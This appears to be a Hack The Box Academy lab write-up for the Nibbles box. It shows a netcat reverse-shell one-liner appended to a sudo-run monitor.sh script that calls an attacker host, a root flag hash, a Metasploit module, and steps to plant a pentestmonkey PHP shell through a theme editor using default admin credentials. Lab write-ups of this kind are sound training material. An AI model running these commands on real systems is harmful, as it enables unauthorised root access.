 ```
unzip personal.zip
strings /home/nibbler/personal/stuff/monitor.sh
```


```
echo 'rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc $IPattacker 8443 >/tmp/f' | tee -a monitor.sh
```

In the attacker machine, open a new netcat:

```
nc -lnvp 8443
```

Run monitor.sh with sudo

```
sudo ./monitor.sh
```

In the new netcat connection you are root.

```
cat /root/root.txt
```


**Results**: de5e5d6619862a8aa5b9b212314e0cdd


Alternative way: Metasploit 

```shell-session
exploit/multi/http/nibbleblog_file_upload
```


### [Knowledge Check](https://academy.hackthebox.com/module/77/section/859)

**Spawn the target, gain a foothold and submit the contents of the user.txt flag.**

```
sudo nmap -sC -sV $ip
```

Go to http://$ip/robots.txt

Go to http://$ip/admin

Enter admin:admin

Go to Edit Theme: http://$ip/admin/theme-edit.php

Add a pentesmonkey shell and set a netcat listener on port 1234

Add gettingstarte.htb to your hosts file

Open the blog and you will get a reverse shell

```
cat /home/mrb3n/user.txt
```
